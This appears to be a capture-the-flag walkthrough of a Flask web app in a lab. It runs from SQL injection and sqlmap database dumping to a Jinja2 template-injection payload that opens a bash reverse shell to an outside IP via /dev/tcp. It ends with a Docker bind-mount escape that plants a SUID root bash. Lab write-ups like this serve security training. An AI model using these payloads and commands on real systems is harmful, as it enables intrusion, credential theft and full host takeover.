# Recon



We find a single web app on port `80`.


We find a website that has a Blog section where users can post messages.



We also find that accounts can be created.



We start running our tooling to see what else we can find, starting with `ffuf` and some basic directory fuzzing.

```bash
ffuf -u http://10.129.65.184/FUZZ -w /usr/share/wordlists/dirb/common.txt -fs 2096,99265
```

We add the `-fs` flag to filter by response size since not-found pages were also returning a `200` status code.



# SQL Injection

Then we use our tool `ZAP` to run some active scans that will automate certain tests for us on the endpoints we found.



ZAP finds SQL Injection on the `/login` endpoint.

Request:



Response:



We confirm it using Burp.





Since we have the vulnerable endpoint, now we can point our next tool, `SQLmap`, to it. To do so, we save the request from Burp into a file and clean the payload to remove the SQL injection payload, allowing `SQLmap` to perform the tests.



```bash
sqlmap -r login.txt --batch --level=5 --risk=3
```



Now `SQLmap` has fingerprinted our scenario, found the injection, and saved everything in a session file so it does not need to re-test everything.



We get:

```text
Type: boolean-based blind
Type: time-based blind
back-end DBMS: MySQL >= 5.0.12
```

# Data Exfiltration with SQLmap

Now we can start doing the actual extraction.

Current user and database:

```bash
sqlmap -r login.txt --current-user --current-db --batch
```



List all databases:

```bash
sqlmap -r login.txt --dbs --batch
```



We find 2 databases, while `information_schema` contains metadata about the databases.

So we proceed to list the tables in the `main` database.

```bash
sqlmap -r login.txt -D main --tables --batch
```



Finding 3 tables: `user`, `blog`, and `blog_comments`.

We then dump the most interesting one, being the `user` table.

```bash
sqlmap -r login.txt -D main -T user --dump --batch
```





We get the hashed password of the `admin` user, so then we bring the hash into an online tool to check it:



`superadministrator`



Navigating through the admin panel, we find:


We add it to our `/etc/hosts`.



Using the same credentials:

`admin/superadministrator`



# SSTI

We see it's running Flask Volt, which is an open-source project that combines the Flask web framework with Bootstrap 5 for the design. It's an admin dashboard template. So one of the first things we should be thinking about is `SSTI`.

Server-Side Template Injection is a vulnerability where user input is injected into a server-side template engine and executed as template code, often leading to RCE.

To check for this, we go back to using `ZAP` and probe the various input fields we find.






To confirm the SSTI, we populate the full name field with:

```jinja2
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

This payload uses the `cycler` object's globals to reach the `os` module and run `id`.



We tweak the payload to get RCE.

```jinja2
{{ cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.38/4444 0>&1"').read() }}
```





# Privilege Escalation

When doing system enumeration, we find that our IP is a private RFC1918 address, which is a very common address range for internal networks and Docker bridge networks.





Display the filesystems that are mounted on the system:

`cat /proc/mounts`



It's mounted at `/home/augustus` **inside the container**. This is a **bind mount**, so the same directory on the host is visible.

So anything we write as root in the container to `/home/augustus` appears on the host disk with the corresponding host-side ownership.



We test it, and we can write to the host disk. We can write root-owned files to the host filesystem.

Now we need a way to get a shell on the host. We know the IP `172.19.0.1`, so we check for services running there.

We do a port scan to understand what's listening on the Docker host:

```bash
for p in 1 22 80 443 2222 5000 8000 8080 8443 9000 10000; do
  timeout 1 bash -c "echo > /dev/tcp/172.19.0.1/$p" 2>/dev/null && echo "port $p open"
done
```



Port `22` is an SSH service.



Trying the same credentials we found.

We land on the actual host.

We can write to `/home/augustus` as container root. Can we make a SUID binary that `augustus` can execute to become root on the host?

Use a binary that belongs to the host.

From the host:

```bash
ls -la /bin/bash
```



This tells us the host has its own `/bin/bash`, and we want to use that host binary rather than the container's version.

Now we want to copy the host Bash into the shared directory so we can use the container's root privileges to make it SUID.

```bash
cp /bin/bash /home/augustus/bash_host
```


From the container:

```bash
cp /home/augustus/bash_host /home/augustus/rootbash
chmod u+s /home/augustus/rootbash
chown root:root /home/augustus/rootbash
ls -la /home/augustus/rootbash
```



`cp` copies the host Bash into the shared directory.

`chmod u+s` sets the SUID bit.

`chown root:root` ensures the ownership is `root:root`.

From the host, all we do is execute it:

```bash
/home/augustus/rootbash -p
```



We copied the host's own `bash` into the shared folder because the container's Bash wouldn't run correctly on the host. Then, using the container's root privileges, we made that copy owned by root and set the SUID bit on it, which `augustus` could never do. Finally, `augustus` executed it on the host: the kernel saw a root-owned SUID file and ran it with effective UID 0. The container did the privileged setup, `augustus` pulled the trigger.